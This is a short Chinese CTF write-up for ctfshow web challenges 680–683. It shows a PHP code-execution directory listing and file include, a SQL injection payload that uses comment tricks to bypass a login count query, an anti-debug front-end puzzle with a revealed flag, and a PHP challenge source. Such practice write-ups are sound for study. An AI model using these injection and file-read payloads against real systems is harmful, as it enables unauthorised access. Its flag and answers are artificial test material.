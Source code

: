 # web

## 大赛复现

### web680
php代码执行,过滤了很多函数,无法使用蚁剑插件绕过
查看当前目录
`var_dump(scandir('./'));`
读取文件
`include('secret_you_never_know');`

### web681
#sql
`select count(*) from ctfshow_users where username = 'admin' or nickname = 'admin'`

输入会同时插入username和nickname,输入一个`or/**/1=1#\`
`select count(*) from ctfshow_users where username = 'or/**/1=1#\' or nickname = 'or/**/1=1#\'`
中间一部分被转为分号内一部分

### web682
前端题,反调试


![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231218194410.png)

需要sha256(<输入>)== 'e3a331710b01ff3b3e34d5f61c2c9e1393ccba3e31f814e7debd537c97ed7d3d'
cmd5查不到,

web手自己的re

`ctfshow{592b9d77-9dda-4e30-94a4-5e64f4499a52}`

### web683
```php
<?php
   error_reporting(0);
   include "flag.php";
   if(isset($_GET['秀'])){
       if(!is_numeric($_GET['秀'])){
          die('必须是数字');
       }else if($_GET['秀'] < 60 * 60 * 24 * 30 * 2){
          die('你太短了');
       }else if($_GET['秀'] > 60 * 60 * 24 * 30 * 3){
           die('你太长了');
       }else{
           sleep((int)$_GET['秀']);
           echo $flag;
       }
       echo '<hr>';
   }
   highlight_file(__FILE__);
```
